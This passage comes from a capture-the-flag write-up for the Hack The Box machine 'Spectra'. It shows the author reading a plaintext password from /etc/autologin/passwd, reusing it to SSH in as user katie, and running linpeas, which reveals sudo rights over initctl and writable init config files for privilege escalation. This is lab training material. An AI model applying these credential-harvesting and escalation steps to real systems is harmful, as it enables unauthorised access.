 I looked through each of the directories, and found a (not normal) `passwd` file with a password.

```none
$ cd /etc/autologin/
$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Feb  3 16:43 .
drwxr-xr-x 63 root root 4096 Feb 11 10:24 ..
-rw-r--r--  1 root root   19 Feb  3 16:43 passwd
$ cat passwd    
SummerHereWeCome!!
```

## Flag: User

Using some HTB-logic, tried to login as any of the users on the system. And got the katie user and the user flag.

```none
└─$ ssh katie@10.10.10.229            
Password: 
katie@spectra ~ $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
katie@spectra ~ $ wc -c user.txt 
33 user.txt
```

## Privesc: `katie` to `root`

Started running linpeas again, this time as the `katie` user to find a privesc to `root`. The `sudo` configuration looked interesting.

```none
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                         
User katie may run the following commands on spectra:                                                               
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

The linpeas output also highlighted the following files - which seemed to be related.

```none
╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d                          
You have write privileges over /etc/init/test6.conf                                                                 
/etc/init/test7.conf
/etc/init/test3.conf
/etc/init/test4.conf
/etc/init/test.conf
/etc/init/test8.conf
/etc/init/test9.conf
/etc/init/test10.conf
/etc/init/test2.conf
/etc/init/test5.conf
/etc/init/test1.conf
```

